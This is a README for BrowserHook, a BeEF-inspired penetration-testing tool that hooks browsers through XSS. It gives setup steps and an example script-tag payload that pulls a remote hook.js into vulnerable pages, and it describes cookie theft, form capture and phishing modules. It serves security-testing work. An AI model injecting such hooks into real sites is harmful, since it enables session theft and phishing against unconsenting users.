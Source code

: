 # BrowserHook

## Overview
BrowserHook is a lightweight penetration testing tool inspired by BeEF (Browser Exploitation Framework). It focuses on exploiting web browser vulnerabilities through XSS attacks, allowing testers to hook browsers, gather information, and execute client-side attacks like cookie theft and phishing. The tool serves a JavaScript hook (`hook.js`) that communicates with a Python-based server via WebSockets, providing a web UI to manage hooked browsers.

## Features
- Serves a JavaScript hook for injection into XSS-vulnerable websites.
- Web UI to view and manage hooked browsers (IP, user agent, cookies, form data).
- Supports basic command modules: cookie theft and phishing page.
- Captures form submissions automatically.
- Stores data in a SQLite database.
- Real-time updates via WebSockets.

## Prerequisites
- Python 3.6 or higher
- `flask`, `flask-socketio` libraries
- Bash (for the setup script)
- A web server with a public IP or domain for external testing
- A target website vulnerable to XSS for hook injection

## Installation

### Setup
1. Clone or download the repository.
2. Run the setup script to create a virtual environment and install dependencies:
   ```bash
   chmod +x set_upfile.sh
   ./set_upfile.sh
   ```
3. Activate the virtual environment:
   - On Linux/macOS:
     ```bash
     source venv/bin/activate
     ```
   - On Windows (if using a compatible shell):
     ```bash
     venv\Scripts\activate
     ```

## Usage
Run the tool with:
```bash
python browserhook.py [--host <host>] [--port <port>]
```

- **--host**: Host to bind (default: 0.0.0.0).
- **--port**: Port to bind (default: 3000).

### Steps
1. Start the server:
   ```bash
   python browserhook.py
   ```
   The server will output the hook URL (e.g., `<script src='http://<host>:3000/hook.js'></script>`).
2. Inject the hook URL into an XSS-vulnerable website (e.g., via a search field or comment box).
   Example injection:
   ```html
   <script src='http://192.168.1.100:3000/hook.js'></script>
   ```
3. Access the web UI at `http://<host>:3000/ui/panel` to view hooked browsers.
4. Execute commands like "Steal Cookies" or "Phishing Page" on hooked browsers.

### Examples
1. **Start the server**:
   ```bash
   python browserhook.py --host 192.168.1.100 --port 3000
   ```
   Output:
   ```
   [*] Starting BrowserHook on http://192.168.1.100:3000/ui/panel
   [*] Hook URL: <script src='http://192.168.1.100:3000/hook.js'></script>
   ```

2. **Inject hook into a vulnerable site**:
   On a site with an XSS-vulnerable input field, inject:
   ```html
   <script src='http://192.168.1.100:3000/hook.js'></script>
   ```

3. **View hooked browsers**:
   Open `http://192.168.1.100:3000/ui/panel` in a browser to see hooked browsers and execute commands.

## Limitations
- Requires XSS vulnerabilities in target websites for hook injection.
- Basic command modules; lacks advanced features like BeEF's extensive module library.
- No persistence after browser closure.
- Assumes UTF-8 encoding for form data.
- Simplified for educational purposes; not as robust as BeEF.

## License
MIT License

## Warning
This tool is for ethical penetration testing and authorized security assessments only. Unauthorized use against systems you do not own or have permission to test is illegal and unethical. Always obtain explicit permission before testing.